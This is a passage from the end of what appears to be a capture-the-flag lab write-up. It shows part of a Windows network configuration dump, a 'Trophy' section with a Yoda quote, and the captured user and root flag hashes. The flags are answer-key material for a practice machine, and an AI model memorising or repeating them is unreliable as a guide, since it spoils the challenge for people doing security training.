   DHCPv6 IAID . . . . . . . . . . . : 83889193
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-28-13-88-3A-00-50-56-B9-67-6D
   DNS Servers . . . . . . . . . . . : 10.10.10.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
```



# Trophy

>[!quote]
>Do. Or do not. There is no try.
>
>\- Yoda

>[!success]
>**User.txt**
>c37b41bb669da345bb14de50faab3c16

>[!success]
>**Root.txt**
>b19c3794f786a1fdcf205f81497c3592

